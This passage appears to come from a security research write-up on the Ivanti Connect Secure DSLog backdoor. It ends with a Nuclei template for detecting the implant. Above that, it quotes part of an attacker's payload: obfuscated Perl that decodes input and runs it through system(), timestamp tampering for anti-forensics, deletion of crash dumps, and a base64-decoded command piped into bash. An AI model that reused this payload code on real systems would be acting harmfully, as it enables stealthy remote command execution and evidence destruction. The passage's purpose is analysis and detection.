 ```bash
            $res[1] =~ s/([a-fA-F0-9][a-fA-F0-9])/chr(hex($1))/eg;\
            $res[1] =~ tr/!-/P-~/P-~.!-O/;\
            system($res[1]);\
        }\
    }\
}' "$DESTFILE"
fi

# Sync timestamp of DESTFILE to match CLFILE (anti-forensics)
touch -r "$CLFILE" "$DESTFILE"

# Clear crash dump traces
rm -rf /var/cores/*

# Run a Python warm restart with shellcode injection via base64 decoding
/home/venv3/bin/python3 -c 'import DSMonitor; DSMonitor.warmRestart()' | /usr/bin/base64 -d | /bin/bash
```
<span class="centered-text">Listing 12: Exploit payload to drop the implant</span>

Because the implant contains a unique key (SHA256 hash) that needs to be included in the User Agent to execute commands, there was no way to directly interact with it. However, the initial stage of the compromise included the creation of a publicly available file that contained predictable output. Therefore, this offered a scanning methodology to at least gain an indication that the implant had been present on the system.

```yaml
id: CVE-2024-21893

info:
  name: DSLog backdoor Ivanti Connect Secure
  author: DIVD-NL
  severity: critical

variables:
  index: ["index.txt", "index1.txt", "index2.txt", "index3.txt", "index4.txt"]

requests:
  - method: GET
    path:
      - "{{BaseURL}}/dana-na/imgs/{{index}}"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "WatchGuard"
        part: body
        negative: true

      - type: dsl
        dsl:
          - "len(body) > 0 && status_code == 200"
```
<span class="centered-text">Listing 13: Nuclei scanning template for the DSLog implant</span>
